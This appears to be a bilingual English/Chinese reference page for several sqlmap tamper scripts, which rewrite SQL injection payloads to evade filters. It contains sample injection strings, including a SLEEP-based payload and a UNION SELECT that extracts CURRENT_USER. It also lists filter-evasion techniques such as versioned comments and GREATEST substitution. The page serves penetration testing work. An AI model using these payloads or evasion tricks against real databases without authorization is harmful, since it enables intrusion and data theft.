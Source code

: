 ### escapequotes.py

> Slash escape single and double quotes (e.g. ' -> \')

```py
>>> tamper('1" AND SLEEP(5)#')
'1\\\\" AND SLEEP(5)#'
```

### greatest.py

> Replaces greater than operator ('>') with 'GREATEST' counterpart

使用 `greatest` 替换 `>`

Tested against:
* MySQL 4, 5.0 and 5.5
* Oracle 10g
* PostgreSQL 8.3, 8.4, 9.0

```py
>>> tamper('1 AND A > B')
'1 AND GREATEST(A,B+1)=A'
```

### halfversionedmorekeywords.py

> Adds (MySQL) versioned comment before each keyword

在每个关键词前添加(MySQL)的版本注释

Requirement:
* MySQL < 5.1

Tested against:
* MySQL 4.0.18, 5.0.22

```py
>>> tamper("value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa")
"value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)),/*!0NULL,/*!0NULL#/*!0AND 'QDWa'='QDWa"
```

### hex2char.py

> Replaces each (MySQL) 0x<hex> encoded string with equivalent CONCAT(CHAR(),...) counterpart

用对应的 CONCAT(CHAR(),...) 替换每个 (MySQL)0x<hex> 编码的字符串。

Requirement:
* MySQL

Tested against:
* MySQL 4, 5.0 and 5.5

```py
>>> tamper('SELECT 0xdeadbeef')
'SELECT CONCAT(CHAR(222),CHAR(173),CHAR(190),CHAR(239))'
```
